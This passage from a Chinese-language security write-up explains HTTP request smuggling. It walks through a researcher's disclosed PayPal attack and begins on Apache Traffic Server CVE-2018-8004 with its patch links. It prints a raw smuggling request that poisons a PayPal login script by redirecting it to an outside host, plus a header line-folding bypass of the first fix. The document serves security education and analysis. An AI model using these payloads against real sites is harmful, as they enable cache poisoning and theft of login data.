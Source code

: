 首先肯定得来聊聊今年分享 HTTP Smuggling 的作者在 Black Hat 上分享的 Paypal 漏洞实例了

作者首先通过 HTTP Smuggling 的方式将一个用于 Paypal 登录的 js 文件进行了投毒：

```bash
POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Content-Length: 61 
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: XGET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Connection: close

HTTP/1.1 302 Found
Location: http://skeletonscribe.net?, c.paypal.com/webstatic/
```

但是 Paypal 登录页面有 CSP 规则 `script-src` 限制了这个跳转。

[![](assets/1698897445-e5ba643339aefc08df0887441c69d37f.svg)](https://portswigger.net/cms/images/e1/5c/43ccf8d84ffc-article-paypal-01.svg)

后来作者发现该页面还有一个动态生成的 iframe 引入了 c.paypal.com，且该子页面没有 CSP 而且还引入了作者投毒的 js 文件！虽然这样可以控制 iframe 页面，但是由于同源策略，是读不到父页面的数据的。

[![](assets/1698897445-395c0dc15e74e420f8a2c2c4406a3311.svg)](https://portswigger.net/cms/images/1e/65/8e618cf695b8-article-paypal-02.svg)

再接着作者的同事在 paypal.com/us/gifts 发现了一个不使用 CSP 的页面，并且也导入了作者投毒的 js 文件，这样作者终于通过 js 将 c.paypal.com 的 iframe 重定向到了 paypal.com/us/gifts，这样就同源了，也就可以读取父页面的数据了。

[![](assets/1698897445-f802bb5e6d4e8a6454326ecaf843d28d.svg)](https://portswigger.net/cms/images/13/0e/7fcaae230c37-article-paypal-03.svg)

Paypal 第一次修复是将 Akamai 配置修改成拒绝含有 Transfer-Encoding: chunked 的请求，但是后来又被作者构造了一个换行的 header 绕过了：

```bash
Transfer-Encoding:
 chunked
```

## ATS

> ​ Apache Traffic Server（ATS）是美国阿帕奇（Apache）软件基金会的一款高效、可扩展的 HTTP 代理和缓存服务器。
> 
> Apache ATS 6.0.0 版本至 6.2.2 版本和 7.0.0 版本至 7.1.3 版本中存在安全漏洞。攻击者可利用该漏洞实施 HTTP 请求走私攻击或造成缓存中毒。
> 
> 在美国国家信息安全漏洞库中，我们可以找到关于该漏洞的四个补丁，接下来我们详细看一下。
> 
> CVE-2018-8004 补丁列表
> 
> -   [https://github.com/apache/trafficserver/pull/3192](https://github.com/apache/trafficserver/pull/3192)
> -   [https://github.com/apache/trafficserver/pull/3201](https://github.com/apache/trafficserver/pull/3201)
> -   [https://github.com/apache/trafficserver/pull/3231](https://github.com/apache/trafficserver/pull/3231)
> -   [https://github.com/apache/trafficserver/pull/3251](https://github.com/apache/trafficserver/pull/3251)
> 
> 注：虽然漏洞通告中描述该漏洞影响范围到 7.1.3 版本，但从 github 上补丁归档的版本中看，在 7.1.3 版本中已经修复了大部分的漏洞。

